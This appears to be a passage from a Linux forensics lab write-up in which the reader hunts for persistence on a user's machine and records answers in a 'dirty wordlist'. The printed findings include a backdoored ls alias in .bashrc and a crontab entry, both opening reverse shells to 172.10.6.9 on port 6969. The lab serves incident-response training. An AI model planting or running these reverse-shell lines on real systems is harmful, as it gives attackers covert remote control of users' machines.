 ```

# See /usr/share/doc/bash-doc/examples in the bash-doc package.
# ~/.bash_aliases, instead of adding them here directly.
# You may want to put all your additions into a separate file like
# Alias definitions.

alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'
#   sleep 10; alert
# Add an "alert" alias for long running commands.  Use like so:

alias ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'
alias l='ls -CF'
alias la='ls -A'
alias ll='ls -alF'
# some more ls aliases

giorgio@giorgio:~$ crontab -e
* * * * * /usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f

```

What's the most interesting file you found in giorgio's home directory?  

Using the ls command on giorgio's home directory doesn't seem to return anything, so maybe we can find something interesting in the hidden files?

*.bad_bash*

In every investigation, it's important to keep a dirty wordlist to keep track of all your findings, no matter how small. It's also a way to prevent going back in circles and starting from scratch again. As such, now's a good time to create one and put the previous answer as an entry so we can go back to it later.

Another file that can be found in every user's home directory is the .bashrc file. Can you check if you can find something interesting in giorgio's .bashrc?

alias is a command that allows a string to be interpreted using a shorter, usually easier-to-remember "alias" for the string. Maybe there's a suspicious usage of alias somewhere?

*'(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --co lor=auto'*

It seems we've covered the usual bases in giorgio's home directory, so it's time to check the scheduled tasks that he owns.

Did you find anything interesting about scheduled tasks?

cron is a great way to automate recurring tasks. Maybe there's a suspicious usage of cron?

*/usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f*

### Dirty Wordlist Revisited

In the previous task, the concept of a dirty wordlist was introduced. In this task, we will discuss it in more detail.

